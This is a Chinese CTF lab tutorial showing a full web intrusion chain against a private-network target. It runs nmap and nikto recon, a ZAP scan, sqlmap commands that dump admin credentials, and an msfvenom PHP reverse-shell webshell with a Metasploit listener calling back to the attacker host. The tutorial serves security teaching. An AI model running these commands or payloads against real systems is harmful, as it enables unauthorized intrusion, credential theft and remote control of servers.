




# CTF入门教程：P33：8.9.CTF夺旗-sql注入(get) 🚩

在本节课中，我们将学习网络安全中一个非常关键的漏洞：SQL注入。我们将通过一个模拟的CTF夺旗场景，演示如何利用SQL注入漏洞获取后台登录凭证，并最终上传WebShell以获取系统权限和Flag值。

---

## 实验环境与目标概述

在开始动手之前，我们先了解一下本次实验的环境和目标。

*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：目标服务器，IP地址为 `192.168.253.15`。
*   **最终目标**：获取靶机的`root`权限，并找到隐藏的`flag`值。

我们的攻击思路是：首先发现并利用SQL注入漏洞，获取后台管理员的用户名和密码；然后登录后台，寻找文件上传点；最后上传一个WebShell，通过它执行系统命令，最终拿到`flag`。

---

## 什么是SQL注入漏洞？🔍

上一节我们明确了目标，本节中我们来看看实现目标的核心武器——SQL注入漏洞。

SQL注入攻击，指的是通过构建特殊的输入作为参数传入到Web应用程序中。这些输入大都是SQL语句里的一些组合。通过执行我们构造的SQL语句，进而执行我们想要的操作，例如窃取数据、破坏数据库或获取系统权限。

SQL注入漏洞产生的原因是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统。具体表现在以下几个方面：

以下是SQL注入漏洞常见的成因：
1.  **不正当的类型处理**：程序未对用户输入的数据类型进行严格校验。
2.  **不安全的数据库配置**：数据库权限设置过高或使用了默认的脆弱配置。
3.  **不合理的查询集处理**：拼接用户输入直接构成SQL语句。
4.  **不当的错误处理**：将详细的数据库错误信息直接返回给用户，暴露了数据库结构。
5.  **转义字符处理不当**：未对用户输入中的特殊字符（如单引号`‘`）进行转义。
6.  **多个提交处理不当**：对GET、POST、Cookie等不同来源的数据处理不一致。

其本质原因是程序允许用户输入，但系统没有对用户输入的恶意字符进行过滤或过滤不严格。

---

## 信息收集：探测靶机服务 🕵️♂️

在利用漏洞之前，我们必须先了解目标。本节我们将对靶机进行信息收集，探测其开放的服务和版本。



我们首先使用`nmap`工具进行端口扫描和服务识别。



**探测服务及版本信息**：
```bash
nmap -sV 192.168.253.15
```
这条命令会向靶机发送探测包，并分析返回的响应，以识别开放的端口及其对应的服务软件和版本。

**进行全面深度扫描**：
为了获取更全面的信息（如操作系统类型、脚本扫描结果等），我们可以使用更强大的扫描参数。
```bash
nmap -T4 -A -v 192.168.253.15
```
*   `-T4`：指定扫描速度，T4为较快速度。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出。

扫描完成后，我们发现靶机开放了`80`端口（HTTP服务）。接下来，我们针对Web服务进行更细致的探测。

**探测Web服务敏感信息**：
我们使用`nikto`工具来扫描Web服务器，寻找潜在的安全问题、敏感文件或配置信息。
```bash
nikto -host http://192.168.253.15
```
`nikto`的扫描结果中，有一条信息引起了我们的注意：`/admin/login.php`。这很可能是一个后台管理登录页面。

---

## 漏洞扫描与确认 🎯

上一节我们发现了后台登录地址，直接尝试弱口令（如`admin/admin`）登录失败。本节我们将使用自动化工具来系统性地寻找漏洞。

我们打开Kali Linux集成的Web漏洞扫描器——OWASP ZAP。这是一个功能强大的渗透测试工具，可以自动发现Web应用程序中的安全漏洞。

1.  在ZAP中新建一个会话。
2.  在攻击（Attack）标签页下，输入靶机地址 `http://192.168.253.15`。
3.  点击“攻击（Attack）”按钮，ZAP会自动对网站进行爬取和主动漏洞扫描。

扫描结束后，ZAP会以不同颜色标记漏洞风险等级。我们发现了**深红色标记的高危漏洞**，其中包括**SQL注入**和反射型XSS。这正是我们需要的突破口。

---

## 利用SQL注入获取凭证 💉

确认存在SQL注入漏洞后，本节我们将使用专门的工具`sqlmap`来利用此漏洞，提取数据库中的管理员账号和密码。

`sqlmap`是一个开源的自动化SQL注入工具，可以用于检测和利用SQL注入漏洞。

以下是利用SQL注入获取数据的标准步骤：
1.  **探测注入点并获取数据库名**：
    ```bash
    sqlmap -u “http://192.168.253.15/vuln.php?id=1” --dbs
    ```
    *   `-u`：指定存在注入点的URL。
    *   `--dbs`：枚举所有数据库名称。
    扫描结果返回了两个数据库：`information_schema`（系统数据库）和 `portal_db`（目标业务数据库）。

2.  **获取指定数据库中的表名**：
    ```bash
    sqlmap -u “http://192.168.253.15/vuln.php?id=1” -D portal_db --tables
    ```
    *   `-D`：指定要操作的数据库名。
    *   `--tables`：枚举该数据库中的所有表。
    我们发现了一个名为 `users` 的表，这很可能存储了用户信息。

3.  **获取指定表的列名（字段名）**：
    ```bash
    sqlmap -u “http://192.168.253.15/vuln.php?id=1” -D portal_db -T users --columns
    ```
    *   `-T`：指定要操作的表名。
    *   `--columns`：枚举该表的所有列。
    结果显示了 `login` 和 `password` 列，这正是我们需要的。

4.  **提取数据（用户名和密码）**：
    ```bash
    sqlmap -u “http://192.168.253.15/vuln.php?id=1” -D portal_db -T users -C “login,password” --dump
    ```
    *   `-C`：指定要提取的列名。
    *   `--dump`：提取并下载指定列的数据。
    `sqlmap`成功提取出了数据：用户名为 `admin`，密码是一个MD5哈希值 `5f4dcc3b5aa765d61d8327deb882cf99`。`sqlmap`甚至自动帮我们破解了这个哈希，其明文是 `password`。

至此，我们通过SQL注入成功获得了后台的登录凭证：`admin` / `password`。

---

## 登录后台与上传WebShell ⚡



获取凭证后，我们顺利登录了后台管理系统。本节的目标是寻找文件上传功能，并上传一个能让我们执行系统命令的WebShell。

首先，我们需要生成一个PHP类型的反向连接WebShell。在Kali终端中执行：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```
*   `-p php/meterpreter/reverse_tcp`：指定生成PHP格式的Meterpreter反向TCP负载。
*   `LHOST`：设置监听机的IP（即我们的Kali IP）。
*   `LPORT`：设置监听的端口号。
*   `-f raw`：输出原始Payload代码。

将命令输出中 `<?php` 开始后的所有代码复制，保存为一个PHP文件，例如 `shell.php`。



接下来，我们需要在Kali上启动Metasploit框架来监听反弹连接。
1.  在终端输入 `msfconsole` 启动Metasploit。
2.  使用以下命令配置监听器：
    ```bash
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set LHOST 192.168.253.12
    set LPORT 4444
    exploit
    ```
    这样，Metasploit就会开始监听4444端口，等待靶机上的WebShell连接回来。

最后，在网站后台找到文件上传功能（可能是上传插件、头像、文章附件等），将我们生成的 `shell.php` 文件上传。上传成功后，通过浏览器访问这个WebShell文件的URL地址，即可触发反向连接。

一旦连接建立，我们在Metasploit中就会获得一个`meterpreter`会话。通过它，我们可以执行系统命令、浏览文件、提权，最终在服务器上找到并读取`flag`文件。

---

## 总结 📝

本节课中我们一起学习了CTF中SQL注入漏洞的完整利用流程。我们从信息收集开始，使用`nmap`和`nikto`探测目标；然后利用OWASP ZAP发现SQL注入漏洞；接着使用`sqlmap`自动化工具注入获取后台管理员账号密码；登录后台后，通过文件上传功能部署WebShell；最后利用Metasploit获得反向Shell，从而控制目标服务器。这个过程涵盖了Web渗透测试中信息收集、漏洞发现、漏洞利用、权限获取等多个关键阶段，是网络安全入门非常经典的实践案例。